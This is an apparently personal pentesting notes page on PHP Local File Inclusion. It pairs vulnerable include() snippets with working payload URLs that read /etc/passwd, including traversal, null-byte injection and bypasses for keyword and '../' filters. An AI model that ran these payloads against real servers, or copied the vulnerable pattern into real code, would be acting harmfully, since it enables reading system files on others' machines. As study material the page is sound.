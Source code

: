 ```yaml
---
title: Local File Inclusion
---
```


_Local File Inclusion_ attacks against web applications are often possible due to a developers' lack of security awareness.

With PHP, using functions such as `include`, `require`, `include_once`, and `require_once` often contribute to vulnerable web applications.

LFI vulnerabilities also occur when using other languages such as ASP, JSP, or even in Node.js apps. LFI exploits follow the same concepts as [path-traversal](/knowledge/offsec/pentesting/path-traversal.md).

## Example

Suppose the web application provides two languages, and the user can select between the EN and AR

```php
<?php
	include($_GET["lang"]);
?>
```

The PHP code above uses a **GET request** via the URL parameter `lang` to **include** the file of the page.

```
http://webapp.com/index.php?lang=EN.php
http://webapp.com/index.php?lang=AR.php
```

Theoretically, we can access and display any readable file on the server from the code above if there isn't any input validation:

```
http://webapp.com/index.php?lang=/etc/passwd
```

## Example #2

The developer might decided to specify the directory inside the function:

```php
<?PHP
	include("languages/". $_GET['lang']);
?>
```

In the above code, the developer decided to use the include function to call PHP pages in the languages directory only via lang parameters.

If there is no input validation, the attacker can manipulate the URL by replacing the lang input with other OS-sensitive files such as /etc/passwd.

The `include` function allows us to include any called files into the current page. The following will be the exploit:

```
http://webapp.com/index.php?lang=../../../../etc/passwd
```

## Example #3

In the first two cases, we _checked_ the code for the web app, and then we knew how to exploit it. In case of [black-box-testing](/black-box-testing), we need to take a look of the error messages in order to understand how the data is passed and processed into the web app, eg:

```
Warning: include(languages/THM.php): failed to open stream: No such file or directory in /var/www/html/**THM-4**/index.php on line 12
```

The error message discloses what the include function looks like:  `include(languages/THM.php);`

We can tell the function that includes files in the languages directory is adding `.php` at the end of the entry. Thus the valid input will be something like `index.php?lang=EN`, where the file EN is located inside the given `languages/` and named  `EN.php`.

From the error message we also know the full web application directory which is `/var/www/html/THM-4/`

To exploit this, we need to use the [dot-dot-slash trick](/knowledge/offsec/pentesting/path-traversal.md) to get out the current folder:

```
http://webapp.com/index.php?lang=../../../../etc/passwd
```

We already knew the `/var/www/html/THM-4` path has four levels, but we still receive the error:

```
Warning: include(languages/../../../../../etc/passwd.php): failed to open stream: No such file or directory in /var/www/html/THM-4/index.php on line 12
```

The error tells us that the developer specifies the file type to pass to the `include` function (namely it has to end with `.php`). To go around that, we need to use [null-byte](/knowledge/offsec/pentesting/null-byte.md) injection:

```
http://webapp.com/index.php?file=../../../../etc/passwd%00
```

## Example #4 - filtered keywords

Let's say the developer decided to filter keywords to avoid disclosing sensitive information and the `/etc/passwd` file has been filtered.

There are two possible methods to bypass the filter.

- by using the [null byte %00](/knowledge/offsec/pentesting/null-byte.md)
- the current directory [path-traversal](/knowledge/offsec/pentesting/path-traversal.md) trick at the end of the filtered keyword (`/.`)

The exploit will be similar to ```

```
http://webapp.thm/index.php?lang=/etc/passwd/.
```

If we try `/etc/passwd/..`, it results to be  `/etc/` and that's because we moved one to the root. If we try `/etc/passwd/.`, the result will be `/etc/passwd` since dot refers to the current directory.

## Example #5 - input validation

---

Let's say the developer starts to use input validation by filtering some keywords out of it.

```
http://webapp.thm/index.php?lang=../../../../etc/passwd
```

By using such URL, we got the following error:

```php
Warning: include(languages/etc/passwd): failed to open stream: No such file or directory in /var/www/html/THM-5/index.php on line 15
```

From the error message we know that the web application replaces the `../` with the empty string (it defaults the fn call to `include(languages/etc/passwd`).

There are a couple of techniques we can use to bypass this.

We can send the following [payload](/knowledge/offsec/glossary/payload.md) to bypass it: `....//....//....//....//....//etc/passwd`, as the PHP filter only matches and replaces **the first subset** string it finds (`../`) and doesn't do another pass, turning

```
..//....//....//....//etc/passwd
```

into

```
../../../../etc/passwd
```

## Example 6 - forced directory

If the developer forces the `include` fn to read from a defined directory, namely, if the web application asks to supply input that has to include a directory such as

```
http://webapp.thm/index.php?lang=languages/EN.php
```

then, to exploit this, we need to include the directory in the [payload](/knowledge/offsec/glossary/payload.md) like so:

```
?lang=languages/../../../../../etc/passwd
```
